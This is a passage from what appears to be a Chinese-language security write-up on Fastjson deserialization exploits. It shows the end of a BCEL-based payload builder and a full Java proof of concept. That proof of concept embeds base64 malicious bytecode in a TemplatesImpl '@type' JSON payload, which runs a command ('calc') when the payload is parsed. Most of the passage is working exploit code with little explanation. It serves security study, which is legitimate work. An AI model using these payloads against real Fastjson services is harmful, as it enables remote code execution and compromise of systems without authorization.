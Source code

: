 ```
      //System.out.println(classname);
      classname = "org.apache.log4j.spi$$BCEL$$"+classname;
      payload2 = payload2.replace("xxxxxxxxxx", classname);
//      ClassLoader cls = new com.sun.org.apache.bcel.internal.util.ClassLoader();
//      Class.forName(classname, true, cls);
      JSONObject.parseObject(payload2);
      return payload2;
    } catch (Exception e) {
      e.printStackTrace();
      return null;
    }
  }
}
```  
  
#### 3、基于com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl的PoC3(来自廖新喜)  
  
这个PoC有限制，需要引用程序是如下写法：  
```
JSON.parseObject(payload3, Object.class, config, Feature.SupportNonPublicField)
```  
  
在实际的环境中基本遇不到，但其中的思路还是值得学习的。  
```
package fastjsonPoCs;
import org.apache.commons.codec.binary.Base64;
import javassist.ClassPool;
import javassist.CtClass;
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
/*
 * 该poc来自于廖新喜大佬的文章：http://xxlegend.com/2017/04/29/title-%20fastjson%20%E8%BF%9C%E7%A8%8B%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96poc%E7%9A%84%E6%9E%84%E9%80%A0%E5%92%8C%E5%88%86%E6%9E%90/
 * 基于com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl，构造的恶意类需要是继承了AbstractTranslet的。
 */
public class PoC3TemplatesImpl {
  public static void main(String[] argv){
    String xx = payload3();
  }
  public static String payload3() {
    try {
      //http://xxlegend.com/2017/04/29/title-%20fastjson%20%E8%BF%9C%E7%A8%8B%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96poc%E7%9A%84%E6%9E%84%E9%80%A0%E5%92%8C%E5%88%86%E6%9E%90/
      String payload3 = "{\"@type\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\", \"_bytecodes\": [\"xxxxxxxxxx\"], \"_name\": \"1111\", \"_tfactory\": { }, \"_outputProperties\":{ }}";
      byte[] bytecode1 = Gadget.createEvilBytecode("calc");
      String className = TemplatesImpl.class.getName();//com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl
      payload3 = payload3.replace("xxxxxxxxxx", Base64.encodeBase64String(bytecode1));
      System.out.println(payload3);
      ParserConfig config = new ParserConfig();
      Object obj = JSON.parseObject(payload3, Object.class, config, Feature.SupportNonPublicField);
      return payload3;
    } catch (Exception e) {
      e.printStackTrace();
```